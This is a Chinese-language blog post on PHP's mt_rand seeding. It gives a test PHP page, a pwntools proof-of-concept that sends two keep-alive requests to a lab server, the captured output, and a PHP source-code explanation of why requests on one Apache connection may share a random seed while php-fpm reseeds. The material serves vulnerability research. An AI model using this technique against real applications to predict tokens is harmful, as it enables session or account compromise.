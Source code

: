 ```yaml
---
title: Never believe in automatic seeding
date: '2017-10-06T00:00:00.000Z'
categories: web
tags:
  - php
  - web
---
```


# Never believe in automatic seeding

国庆佳节，夜夜笙歌，不胜腰力，无心成文。

抛砖引玉，删繁就简，清者自清，明者自明。

## poc.php

```text
<?php
$randcount = 8;
$a = array();
$max = 9999999;
for($i=0;$i<$randcount;$i++){
        $a[$i]=mt_rand(0,$max);
}
var_dump($a);
foreach ($a as $value) {
    echo " ".$value." ".$value." 0 ".$max;
}
echo "\n";
echo "time is ".microtime()."\n";

echo "request token is ".$_GET['token']."\n";
```

## rand\_poc.py

考虑到使用urllib或者requests可能出现同步等问题，所以在写poc的时候直接使用pwntools做了封包和收包，可能不需要考虑这个。

```text
import socket
import random
from pwn import *

port = 80
host = '10.211.55.10'

target = remote(host, port)

def packhttp(token):
    cutoff = "\x0d\x0a"
    payload1 = ''
    payload1 += 'GET /rand.php?token=%s HTTP/1.1'%token + cutoff
    payload1 += 'Host: %s'%host + cutoff
    payload1 += 'Connection: Keep-Alive' + cutoff
    payload1 += cutoff
    return payload1

def randtoken(len=8):
    return ''.join(random.sample(['z','y','x','w','v','u','t','s','r','q','p','o','n','m','l','k','j','i','h','g','f','e','d','c','b','a'], len))

def sar():
    token = randtoken()
    target.send(packhttp(token))
    return target.recvuntil(token)

def poc(target):
    log.info("sending two Keep-Alive http package by one socket connection")
    # payload = payload1 + cutoff*2 +payload1
    # print payload
    recvdata = ''
    recvdata += sar()
    recvdata += sar()

    return recvdata

print poc(target)
```

## poc result

### 16 random number

```text
In [18]: run rand_poc.py
[x] Opening connection to 10.211.55.10 on port 80
[x] Opening connection to 10.211.55.10 on port 80: Trying 10.211.55.10
[+] Opening connection to 10.211.55.10 on port 80: Done
[*] sending two Keep-Alive http package by one socket connection
HTTP/1.1 200 OK
Date: Fri, 06 Oct 2017 09:49:40 GMT
Server: Apache/2.4.18 (Ubuntu)
X-Powered-By: PHP/5.4.34
Vary: Accept-Encoding
Content-Length: 459
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

array(8) {
  [0]=>
  int(5807457)
  [1]=>
  int(5008019)
  [2]=>
  int(8055242)
  [3]=>
  int(6955293)
  [4]=>
  int(326263)
  [5]=>
  int(4832321)
  [6]=>
  int(2186647)
  [7]=>
  int(7073056)
}
 5807457 5807457 0 9999999 5008019 5008019 0 9999999 8055242 8055242 0 9999999 6955293 6955293 0 9999999 326263 326263 0 9999999 4832321 4832321 0 9999999 2186647 2186647 0 9999999 7073056 7073056 0 9999999
time is 0.00477000 1507283380
request token is vnlhqjbt
HTTP/1.1 200 OK
Date: Fri, 06 Oct 2017 09:49:40 GMT
Server: Apache/2.4.18 (Ubuntu)
X-Powered-By: PHP/5.4.34
Vary: Accept-Encoding
Content-Length: 459
Keep-Alive: timeout=5, max=99
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

array(8) {
  [0]=>
  int(6081848)
  [1]=>
  int(5063035)
  [2]=>
  int(1452456)
  [3]=>
  int(3989528)
  [4]=>
  int(944428)
  [5]=>
  int(1400189)
  [6]=>
  int(7948629)
  [7]=>
  int(5599503)
}
 6081848 6081848 0 9999999 5063035 5063035 0 9999999 1452456 1452456 0 9999999 3989528 3989528 0 9999999 944428 944428 0 9999999 1400189 1400189 0 9999999 7948629 7948629 0 9999999 5599503 5599503 0 9999999
time is 0.00676000 1507283380
request token is zgtoyvqw
```

### is there a seed for all ?

## 以下引用自 md5\_salt

## For apache Apache2handler

在`/sapi/apache2handler/sapi_apache2.c`中`static int php_handler(request_rec *r)`函数可以看到，

```text
...
ctx = SG(server_context);
parent_req = ctx->r;
...
if (!parent_req) {
        php_apache_request_dtor(r);
        ...
```

只有在`parent_req`为NULL的情况下，才会运行到`php_apache_request_dtor`，调用`php_request_shutdown`，这个函数会调用注册的`PHP_RSHUTDOWN_FUNCTION`，导致随机数的种子被标记为未初始化。

在Apache下，一个 Connection 中的所有 request 都交给一个 Apache 的进程处理。很可能没有调用到`php_apache_request_dtor`导致在一个 Connection 中的请求共用一个种子。

## for php-fpm

在`/sapi/fpm/fpm/fpm_main.c`中`int main(int argc, char *argv[])`函数可以看到，php-fpm的进程会循环处理请求，请求结束后调用`php_request_shutdown`函数进行清理。因此，在php-fpm的环境下，每个请求用的都是一个新的种子。

